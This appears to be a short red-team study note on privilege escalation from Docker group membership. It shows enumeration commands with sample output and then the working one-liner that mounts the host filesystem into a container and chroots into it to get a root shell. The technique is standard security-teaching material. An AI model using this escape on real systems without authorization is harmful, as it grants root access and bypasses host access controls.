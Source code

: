 # Living off the Land

## 01 - Enumerate

> [!IMPORTANT] Conditions
> The current user be part of the `docker` group.

TODO: Fill this info

```
user@debian:~$ ps aux | grep docker
user      1607  0.0  0.2  13136  1088 pts/0    S+   20:19   0:00 grep --color=auto docker
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),116(docker)
user@debian:~$ groups
user docker
user@debian:~$ grep "docker" /etc/group
```

```
user@debian:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        2 years ago         15.8MB
```

## 02 - Exploit

```
$ docker run -v /:/mnt --rm -it <image_ID> chroot /mnt sh
```

```
user@debian:~$ cd ..
user@debian:~/home$ docker run -v /:/mnt --rm -it 495d6437fc1e chroot /mnt sh
```

---
## References

### DMCXBlue

- [DMCXBlue: Escape to Host](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/privilege-escalation/t1611-escape-to-host)